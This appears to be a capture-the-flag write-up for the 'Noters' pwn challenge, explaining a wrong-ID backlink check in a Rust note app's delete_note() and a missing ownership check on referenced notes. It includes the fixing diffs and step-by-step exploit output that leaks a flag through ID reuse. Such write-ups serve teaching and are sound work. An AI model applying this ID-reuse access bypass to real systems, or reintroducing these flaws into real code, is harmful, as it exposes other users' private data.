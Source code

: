 # Noters

## Challenge Overview

- Name: Noters
- Category: Pwn
- Difficulty: Easy
- Description: A blazingly fast, memory-safe, CRUD-compliant note-taking app.

## Vulnerability

A logic flaw in the `delete_note()` function in `app.rs`(line 146) introduces a high-level use-after-free vulnerability. The intention is to prevent deleting a note if it's referenced by another, but the code mistakenly checks the note being deleted for backlinks rather than other notes that may reference it. The diff shows a patch of `delete_note()`.

```diff
    // Delete note by ID
    pub fn delete_note(&self, id: u16) -> Result<()> {
        // Check if any other note references this note (expensive)
        // and do not stop at the first backlink, find all of them
        let mut backlinks: Vec<u16> = Vec::new();
        for partial_note in self.list_notes()? {
            // Do not prevent deletion if note refers to itself
            if partial_note.id == id {
                continue;
            }

            // Read content and find all references
            // Save ID to Vec if it contains a backlink
            // to the note we're trying to delete
-           let content = self.repo.read(id)?.content;
+           let content = self.repo.read(partial_note.id)?.content;
            let references = NoteService::get_references(&content);
            if references.contains(&id) {
                backlinks.push(partial_note.id);
            }
        }

        let num_backlinks = backlinks.len();
        trace!("Found {} backlinks to note with ID: {}", num_backlinks, id);
        match num_backlinks {
            0 => self.repo.delete(id),
            _ => Err(NoteError::Validation(
                NoteValidationError::NoteIsReferenced(backlinks),
            )),
        }
    }
```

This one-character mistake (`id` vs `partial_note.id`) means that backlink checks are ineffective - you can delete a note even if another note references it.

Additionally, `read_note()` in `app.rs` (line 80) fails to verify ownership for referenced notes. So if a user references a note they don't own, the system still resolves it.

```diff
    // Read a full note and expand references (e.g. [[1]] expands to the name and content of note #1)
    pub fn read_note(&self, id: u16) -> Result<Note> {
        let mut note = self.repo.read(id)?;

        // Only allow owner read access
        if self.user != note.owner {
            return Err(NoteValidationError::PermissionDenied(id).into());
        }

        // Mapping references to note contents: [[1]] -> "Some content"
        let placeholders = Self::get_references(&note.content)
            .into_iter()
            .map(|rid| match self.repo.read(rid) {
                Ok(ref_note) => {
+                   // Make sure user has permission to read referenced note
+                   if ref_note.owner != self.user {
+                       return Err(NoteError::Validation(
+                           NoteValidationError::PermissionDenied(ref_note.id),
+                       ));
+                   }
+
                    let placeholder = format!("[[{rid}]]");
                    let expansion = format!(
                        ">>> #{} {}\n>\n> {}",
                        ref_note.id,
                        ref_note.name,
                        ref_note.content.replace('\n', "\n> ")
                    );
                    Ok((placeholder, expansion))
                }
                Err(_) => Err(NoteValidationError::ReferenceNotFound(rid).into()),
            })
            .collect::<Result<Vec<_>>>()?;

        // Expanding references: [[1]] -> Note #1's content
        let expanded = placeholders
            .into_iter()
            .fold(note.content, |txt, (ph, exp)| txt.replace(&ph, &exp));

        note.content = expanded;
        Ok(note)
    }
```

## Exploit

To exploit this:

### 1. We create two notes

One regular note (`#0`), and one referencing the first (`#1`), like ``[[0]]`:

#### Note #0

```text
Name:
> first note

Content:
> hello!
> .
```

#### Note #1

```text
Name:
> references #0

Content:
> Reference to first note:
> [[0]]
> .
```

### 2. List notes to confirm

```pgsql
 id | owner     | name 
----+-----------+--------------
 0  | fslaktern | first note
 1  | fslaktern | references #0 
```

### 3. Delete note #0

Despite the note #1 referencing note #0, deletion succeeds due to the broken backlink check.

```pgsql
 id | owner     | name 
----+-----------+--------------
 1  | fslaktern | references #0 
```

### 4. Create a new note containing the flag

This gets assigned **ID #0**, which is still referenced by note #1.

```pgsql
 id | owner                | name 
----+----------------------+--------------
 0  | Norske Nøkkelsnikere | flag 
 1  | fslaktern            | references #0 
```

### 5. Read note #1

The reference `[[0]]` resolves - revealing the contents of the new note:

```
-------------------------------
#1: references #0

Reference to first note:
>>> #0 flag
>
> NNSCTF{flag}
-------------------------------
```

